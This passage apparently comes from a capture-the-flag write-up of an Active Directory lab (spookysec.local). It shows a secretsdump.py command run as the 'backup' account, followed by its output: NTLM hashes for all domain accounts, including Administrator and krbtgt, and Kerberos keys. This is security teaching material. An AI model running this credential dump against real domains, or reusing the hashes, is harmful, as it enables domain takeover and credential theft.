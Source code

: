 Now we have a new set of credentials!

The room advised that we use another impacket script "secretsdump.py". What this does is just dump the NTLM hashes of the accounts present in the AD if the current account has access to the NTDS.dit file. The NTDS.dit files contains active directory data such as groups, hashes, accounts etc.

{%highlight text%}
$ secretsdump.py backup@spookysec.local              
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:9927ea2eb4e69e7935f91fe57ef5711b:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
krbtgt:des-cbc-md5:b94f97e97fabbf5d
spookysec.local\skidy:aes256-cts-hmac-sha1-96:3ad697673edca12a01d5237f0bee628460f1e1c348469eba2c4a530ceb432b04
spookysec.local\skidy:aes128-cts-hmac-sha1-96:484d875e30a678b56856b0fef09e1233
spookysec.local\skidy:des-cbc-md5:b092a73e3d256b1f
spookysec.local\breakerofthings:aes256-cts-hmac-sha1-96:4c8a03aa7b52505aeef79cecd3cfd69082fb7eda429045e950e5783eb8be51e5
spookysec.local\breakerofthings:aes128-cts-hmac-sha1-96:38a1f7262634601d2df08b3a004da425
spookysec.local\breakerofthings:des-cbc-md5:7a976bbfab86b064
spookysec.local\james:aes256-cts-hmac-sha1-96:1bb2c7fdbecc9d33f303050d77b6bff0e74d0184b5acbd563c63c102da389112
spookysec.local\james:aes128-cts-hmac-sha1-96:08fea47e79d2b085dae0e95f86c763e6
spookysec.local\james:des-cbc-md5:dc971f4a91dce5e9
spookysec.local\optional:aes256-cts-hmac-sha1-96:fe0553c1f1fc93f90630b6e27e188522b08469dec913766ca5e16327f9a3ddfe
spookysec.local\optional:aes128-cts-hmac-sha1-96:02f4a47a426ba0dc8867b74e90c8d510
spookysec.local\optional:des-cbc-md5:8c6e2a8a615bd054
spookysec.local\sherlocksec:aes256-cts-hmac-sha1-96:80df417629b0ad286b94cadad65a5589c8caf948c1ba42c659bafb8f384cdecd
spookysec.local\sherlocksec:aes128-cts-hmac-sha1-96:c3db61690554a077946ecdabc7b4be0e
spookysec.local\sherlocksec:des-cbc-md5:08dca4cbbc3bb594
spookysec.local\darkstar:aes256-cts-hmac-sha1-96:35c78605606a6d63a40ea4779f15dbbf6d406cb218b2a57b70063c9fa7050499
spookysec.local\darkstar:aes128-cts-hmac-sha1-96:461b7d2356eee84b211767941dc893be